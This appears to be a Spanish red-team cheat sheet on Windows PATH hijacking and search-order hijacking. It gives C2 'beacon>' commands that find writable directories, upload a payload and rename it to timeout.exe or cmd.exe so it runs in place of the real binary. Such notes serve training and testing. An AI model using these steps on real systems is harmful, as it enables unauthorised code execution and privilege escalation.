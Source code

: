 ### 🔹 **1. PATH Environment Variable Hijack**

**Qué es:**  
Si una carpeta _antes que System32_ en `PATH` es _escribible_, puedes colocar un binario malicioso con el mismo nombre que uno legítimo (ej: `timeout.exe`).

**Uso:** Si puedes escribir en un directorio listado en el PATH antes de `C:\Windows\System32`.

**Comandos clave:**

```powershell
beacon>powershell Get-Item Env:Path # Ver variables de entorno, buscar rutas delante del path, sin o se ve entero:
beacon> env (buscamos Path=)
beacon> cacls <dir>    # Ver permisos del directorio, si peudo escribir.
beacon> cd <dir_writable>           
beacon> upload <payload>            
beacon> mv <payload> <nombre_legítimo>.exe
```

**Ejemplo práctico:**

```powershell
beacon> cd C:\Python313\Scripts
beacon> upload C:\Payloads\dns_x64.exe
beacon> mv dns_x64.exe timeout.exe
```



🔹 **2. Search Order Hijacking**

**Qué es:**  
Hijack del orden de búsqueda al ejecutar binarios (varía según la API usada: `CreateProcess`, `ShellExecuteEx`, `WinExec`).

**Orden de búsqueda típico (WinExec):**

1. Dir ejecutable
    
2. Dir actual
    
3. `C:\Windows\System32`
    
4. `C:\Windows`
    
5. PATH

**Claves:**
- Si el ejecutable está en un directorio escribible, puedes suplantar `cmd.exe`, etc.

**Uso:** Si puedes escribir en el directorio donde vive el binario del servicio/aplicación.

**Comandos:**
```powershell
beacon> cacls "C:\Ruta\Del\Binario"
beacon> cd "C:\Ruta\Del\Binario"
beacon> upload <payload>
beacon> mv <payload> cmd.exe
```
